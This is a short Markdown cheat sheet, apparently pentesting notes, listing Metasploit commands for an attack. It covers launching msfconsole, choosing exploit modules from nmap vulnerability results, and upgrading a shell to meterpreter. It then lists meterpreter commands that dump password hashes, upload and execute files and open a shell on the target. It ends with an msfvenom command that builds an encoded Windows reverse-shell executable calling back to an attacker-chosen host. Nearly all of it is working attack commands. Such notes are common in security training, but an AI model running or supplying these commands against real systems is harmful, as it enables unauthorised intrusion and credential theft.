 # Metasploit

### Start Metasploit

```msfconsole -q```

### List sessions

```sessions```

### Search for and use module from nmap vuln scan

```search <vuln>```

```use <index>```

### Change reverse shell to metapreter shell

```use post/multi/manage/shell_to_metapreter```

```set session <session id of shell>```

Change to metapreter session:

```sessions -i <session id>```

#### Useful metapreter commands

```shell``` - Gain interactive shell on target box

```hashdump``` - Dump password hashes of users

```upload <src file> <dst file>``` - Upload file to target

```download <src file> <dst file>``` - Download file from target

```sysinfo``` - Get info on target box

```execute -f <file>``` - Execute file on target box

### Generate reverse shell as windows executable

```msfvenom -p windows/shell_reverse_tcp LHOST=<ip> LPORT=<port> -e x86/shikata_ga_nai -f exe -o <.exe>```